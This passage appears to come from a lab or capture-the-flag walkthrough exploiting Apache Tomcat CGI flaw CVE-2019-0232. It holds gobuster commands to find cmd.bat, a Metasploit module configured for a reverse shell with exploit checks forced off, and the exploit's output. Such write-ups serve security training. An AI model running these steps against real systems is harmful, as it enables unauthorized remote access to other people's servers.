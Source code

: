 #### Step 1: CGI Script Discovery
```bash
# Fuzz for CGI batch files (Windows-specific)
gobuster dir -u http://TARGET_IP:8080/cgi/ \
  -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -x .bat -t 50 -k -q

# Expected findings:
/cmd.bat              (Status: 200) [Size: 0]
/Cmd.bat              (Status: 200) [Size: 0]
```

**Key Discovery Points:**
- **CGI directory** accessible at `/cgi/`
- **Batch files** present (Windows-specific)
- **Case variations** (cmd.bat, Cmd.bat) indicate file system case sensitivity

#### Step 2: Metasploit Exploitation Setup
```bash
# Launch Metasploit Framework
msfconsole -q

# Load CVE-2019-0232 exploit module
use exploit/windows/http/tomcat_cgi_cmdlineargs

# Module configuration
set RHOSTS TARGET_IP
set TARGETURI /cgi/cmd.bat
set LHOST tun0
set FORCEEXPLOIT true

# Verify configuration
show options
```

**Module Parameters Explanation:**
- **RHOSTS:** Target IP address
- **TARGETURI:** Path to vulnerable CGI script
- **LHOST:** Attacker IP for reverse shell
- **FORCEEXPLOIT:** Bypass exploit checks (force execution)

#### Step 3: Exploit Execution
```bash
# Execute the exploit
exploit

# Expected output:
[*] Started reverse TCP handler on 10.10.14.45:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (175686 bytes) to TARGET_IP
```
